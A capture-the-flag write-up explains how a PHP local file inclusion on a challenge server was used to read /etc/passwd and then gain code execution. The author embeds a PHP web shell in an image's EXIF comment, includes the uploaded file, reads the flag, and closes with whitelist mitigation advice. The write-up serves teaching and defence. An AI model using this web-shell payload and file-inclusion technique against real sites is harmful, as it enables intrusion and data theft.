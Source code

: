 # Local Fun Inclusion

## Solution

As the name suggest, there is probably some LFI and since it's PHP most likely via an [`include`](https://www.php.net/manual/de/function.include.php) using a user-supplied input.
Visiting the file page, we can see that there is an upload functionality:
<br/> <br/>
![](upload_function.png)
<br/> <br/>
If we click on `View the uploaded image` we are redirect to the following url: `http://lfi.hax1.allesctf.net:8081/index.php?site=view.php&image=uploads/cffa605a09b425b7db2d484c1db72b41.png`.
The parameter `site` seems to be our LFI, changing its value to `/etc/passwd` gives us the file content:
<br/> <br/>
![](etc_passwd.png)
<br/> <br/>
Since I didn't mangage to find any other interesting file, I assume we have to get RCE. Perhaps we can [hide valid php in the image and then include it](https://security.stackexchange.com/questions/32967/is-it-possible-to-execute-a-php-script-in-an-image-file).
```
$ exiftool -comment='<?php system($_GET["cmd"]); ?>' image.png
```
We can now upload the image with the php code and visit: `http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/cffa605a09b425b7db2d484c1db72b41.png&cmd=ls`:
<br/> <br/>
![](ls.png)
<br/> <br/>
And indeed, we see `flag.php`. Let's try retrieve the content by visiting: `http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/cffa605a09b425b7db2d484c1db72b41.png&cmd=cat flag.php | base64`:
<br/> <br/>
And we find the following base64 encoded string:
```
$ echo "PD9waHAKCiRGTEFHID0gIkNTQ0d7RzN0dGluZ19SQ0VfMG5fdzNiX2lzX2FsdzR5c19jb29sfSI7" | base64 -d
<?php

$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```

## Mitigation

The best approach to mitigate such an issue is to use a whitelist of allowed pages to include, so that every value of `site` that doesn't equal `view.php` gets blocked for example.
